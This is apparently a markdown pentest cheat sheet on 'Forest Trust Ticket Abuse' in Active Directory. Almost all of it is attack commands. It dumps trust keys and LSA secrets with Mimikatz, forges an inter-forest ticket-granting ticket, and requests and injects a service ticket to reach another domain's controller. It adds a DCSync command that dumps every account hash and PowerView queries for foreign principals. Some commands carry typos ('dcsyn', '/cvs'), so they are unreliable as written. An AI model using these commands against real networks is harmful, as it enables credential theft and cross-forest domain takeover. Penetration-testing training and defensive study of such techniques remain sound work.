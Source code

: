 ## Forest Trust Ticket Abuse

## 1. We require the trust key of inter-forest trust
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## 2. Forge the inter-forest TGT
```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:ad.domain.local /sid:<sid> /rc4:<rc4-hash> /service:krbtgt /target:domain2.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```

## 3. Request a TGS
```powershell
.\asktgs.exe C:\temp\trust_forest_tkt.kirbi CIFS/dc.domain2.local
```

## 4. Inject and use the TGS
```powershell
.\kirbikator.exe lsa .\CIFS.computer.targetDomain.local.kirbi
ls \\dc.domain2.local\shares\
```

# Extras
## To use the DCSync feature for getting krbtg hash execute the below command with DC privileges
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:dc.domain2.local /all /cvs"'
```

## Get the ForeignSecurityPrincipal
```powershell
#These SIDs can access to the target domain
Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

#With the by default SIDs, we find S-1-5-21-493355955-4215530352-779396340-1104
#We search it in our current domain
Get-DomainObject |? {$_.objectsid -match "S-1-5-21-493355955-4215530352-779396340-1104"}
```
